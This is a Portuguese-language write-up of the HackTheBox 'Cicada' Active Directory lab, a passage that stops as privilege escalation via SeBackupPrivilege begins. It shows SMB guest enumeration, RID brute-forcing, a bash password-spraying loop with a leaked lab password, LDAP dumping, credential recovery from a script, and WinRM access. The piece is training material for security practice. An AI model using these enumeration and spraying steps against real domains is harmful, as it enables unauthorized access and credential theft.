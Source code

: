 # Cicada

## Resumo



## Reconhecimento

Realizei uma varredura de portas TCP com o `nmap` para identificar os serviços em execução, o que possibilitou encontrar as seguintes portas respondendo:

```bash
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-01-07 17:13:33Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
62741/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

Analisando a resposta, esses são serviços comuns de se encontrar em um servidor Windows e estão relacionados ao Active Directory. Dentre os serviços disponíveis, as portas 139 e 445 indicam a presença de um servidor SMB. Acessando como usuário convidado (`guest`), os seguintes compartilhamentos são listados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasmbmap.png" alt=""><figcaption><p>HTB Cicada - SMBMap</p></figcaption></figure>

Perceba que o usuário convidado tem permissão de leitura à pasta compartilhada `HR`. Listando o conteúdo compartilhado, é possível encontrar um arquivo `Notice from HR.txt`:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadasensitive-file.png" alt=""><figcaption><p>HTB Cicada - Arquivo sensível encontrado</p></figcaption></figure>

É possível baixar esse arquivo com o seguinte comando:

```bash
smbmap -u 'guest' -p '' -H 10.10.11.35 -s 'HR' --download 'HR/Notice from HR.txt'
```

Listando o conteúdo do arquivo, é possível encontrar a seguinte mensagem informando a senha padrão de um usuário não identificado:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadashared-password.png" alt=""><figcaption><p>HTB Cicada - Senha encontrada em arquivo compartilhado</p></figcaption></figure>

Com a senha de um usuário ainda não identificado, foi necessário varrer o Active Directory em busca de possíveis usuários para tentar combinar com a senha. Utilizando o `crackmapexec` por meio do seguinte comando:

```bash
crackmapexec smb 10.10.11.35 -d cicada.htb -u 'guest' -p '' --rid-brute
```

Foi possível obter os seguintes resultados:

```bash
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
<...SNIP>
SMB         10.10.11.35     445    CICADA-DC        498: CICADA\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        500: CICADA\Administrator (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

## Exploração

### Usuário michael.wrightson

Com uma lista de usuários, agora basta realizar um ataque de [password spraying](https://owasp.org/www-community/attacks/Password_Spraying_Attack) em busca de uma combinação de usuário e senha válidos. Desenvolvi um breve script em BASH para automatizar essa tarefa, utilizando os usuários obtidos e o `crackmapexec` para validar as credenciais:

```bash
USERS=$(grep 'CICADA\\' crackmapexec/rid-brute | awk '{print $6}' | cut -d '\' -f 2 | sort -u)
for user in ${USERS}; do
  crackmapexec smb 10.10.11.35 -u "${user}" -p 'Cicada$M6Corpb*@Lp#nZp!8' | grep '[+]' 2> /dev/null | tee crackmapexec/password-spray;
done
```

Mesmo filtrando apenas os resultados válidos, o script retornou diversos falsos positivos:

```bash
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Allowed:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cert:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Cloneable:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Denied:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Dev:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsAdmins:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\DnsUpdateProxy:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Domain:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Enterprise:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Group:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Groups:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Key:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Protected:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Read-only:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\Schema:Cicada$M6Corpb*@Lp#nZp!8 
```

Observe que dentre os resultados obtidos, o usuário `michael.wrightson` se destaca por ser dentre os únicos da lista que foi adicionado por um administrador, não sendo um usuário padrão. Por conta disso, utilizei ele para tentar fazer login em outros serviços (nesse caso, o LDAP) e tive sucesso.&#x20;

### Usuário david.orelious

Utilizando a ferramenta `ldapdomaindump`, obtive os seguintes resultados:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadaldapdomaindump.png" alt=""><figcaption><p>HTB Cicada - ldapdomaindump</p></figcaption></figure>

Analisando o resultado do arquivo `domain_users.json`, é possível encontrar a senha do usuário david.orelious:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>HTB Cicada - Senha do usuário David</p></figcaption></figure>

### Usuário emily.oscars

Novamente utilizando o SMBMap, mas dessa vez com as credenciais do usuário David, é possível identificar uma permissão de leitura da pasta compartilhada `DEV`.

<figure><img src="../../../.gitbook/assets/ctfhtbcicadadev-share.png" alt=""><figcaption><p>HTB Cicada - Pasta compartilhada DEV</p></figcaption></figure>

Nela, está contido um script PowerShell com o seguinte conteúdo:

```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "<REDACTED>" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Com as credenciais do usuário `emily.oscars`, é possível se autenticar remotamente por meio do protocolo `WinRM`. Utilizando a ferramenta `evil-winrm`, acessei a máquina e obtive a flag de usuário:

<figure><img src="../../../.gitbook/assets/ctfhtbcicadawinrm.png" alt=""><figcaption><p>HTB Cicada - acesso remoto via WinRM</p></figcaption></figure>

## Escalação de Privilégios

Listando as informações sobre o usuário `emily.oscars` por meio do comando `whoami /all`, é possível encontrar os seguintes privilégios:

```powershell
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled <
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

É possível escalar privilégio utilizando a permissão [SeBackupPrivilege](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges.html#local-attack)
